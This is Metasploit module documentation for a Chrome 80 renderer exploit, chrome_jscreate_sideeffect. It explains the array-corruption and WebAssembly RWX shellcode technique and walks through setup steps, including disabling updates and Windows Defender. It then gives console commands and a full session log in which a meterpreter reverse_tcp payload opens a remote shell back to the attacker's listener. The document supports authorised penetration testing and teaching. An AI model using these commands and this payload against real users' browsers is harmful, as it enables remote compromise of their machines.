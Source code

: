 This module exploits an issue in Google Chrome 80.0.3987.87 (64 bit). The exploit corrupts the length of a float array (float_rel), which can then be used for out of bounds read and write on adjacent memory.
The relative read and write is then used to modify a UInt64Array (uint64_aarw) which is used for read and writing from absolute memory.
The exploit then uses WebAssembly in order to allocate a region of RWX memory, which is then replaced with the payload shellcode.

**The payload is executed within the sandboxed renderer process, so the browser must be run with the --no-sandbox option for the payload to work correctly.**

## Vulnerable Application

The module is compatible with any 64bit Google Chrome (version 80), on any platform (macOS, Linux or Windows), however the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified for different versions.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://www.filepuma.com/download/google_chrome_64bit_80.0.3987.87-24545/](https://www.filepuma.com/download/google_chrome_64bit_80.0.3987.87-24545/)

You should ensure that application does not update itself to the latest version (by disabling automatic updates or simply not connecting to the internet).
You may also need to disable Windows Defender.

## Verification Steps

1. Do: ```use exploit/multi/browser/chrome_jscreate_sideeffect```
2. Do: ```set payload windows/x64/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Scenarios

### Windows 10 and Google Chrome 80.0.3987.87 with --no-sandbox

Start Google Chrome without a sandbox:

```"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox```

```
msf > use exploit/multi/browser/chrome_jscreate_sideeffect
msf exploit(multi/browser/chrome_jscreate_sideeffect) > set URIPATH /
URIPATH => /
msf exploit(multi/browser/chrome_jscreate_sideeffect) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf exploit(multi/browser/chrome_jscreate_sideeffect) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/chrome_jscreate_sideeffect) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(multi/browser/chrome_jscreate_sideeffect) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/browser/chrome_jscreate_sideeffect) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.

msf exploit(multi/browser/chrome_jscreate_sideeffect) >
[*] 192.168.56.3     chrome_jscreate_sideeffect - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49677) at 2020-03-04 21:22:38 +0800

msf exploit(multi/browser/chrome_jscreate_sideeffect) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\Program Files (x86)\Google\Chrome\Application\80.0.3987.87
meterpreter >
```
